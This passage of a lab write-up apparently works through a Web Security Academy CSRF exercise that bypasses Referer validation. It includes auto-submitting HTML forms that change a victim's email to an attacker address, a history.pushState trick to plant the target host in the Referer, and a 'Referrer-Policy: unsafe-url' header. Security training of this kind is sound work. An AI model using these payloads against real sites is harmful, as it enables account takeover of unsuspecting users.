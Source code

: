 - Changing the request to `POST /my-account/change-email?id=TARGET-WEBSERVER-ID.web-security-academy.net`, the request is successful

- Adding `Referer: TARGET-WEBSERVER-ID.web-security-academy.net` makes the request successful as well

1st exploit by trying to add the target URL in the request URL parameters:

```
<html>
    <body>
        <form action="https://TARGET-WEBSEVER-ID.web-security-academy.net/my-account/change-email/?id=TARGET-WEBSEVER-ID.web-security-academy.net" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

- On repeater we get a 302 request and get redirected to login page

- We bypassed the `Referer` validation but still failed to change user email

2nd exploit by trying to set the `Referer` header to one with the target webserver id

```
<html>
    <script>
            history.pushState("", "", "/?TARGET-WEBSEVER-ID.web-security-academy.net")
    </script>
    <body>
        <form action="https://TARGET-WEBSEVER-ID.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

- We observer that out javascript code was not executed as even after setting our url to one with the target webserver url BEFORE running `document.forms[0].submit();` which will trigger another request from which the the referer should be the our attacker url + the target webserver url but we observe that only our attacker url is found in the `referer` header. This is because we did not add `Referrer-Policy: unsafe-url` in the HEAD of our request.

3rd and final exploit

Head:

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```
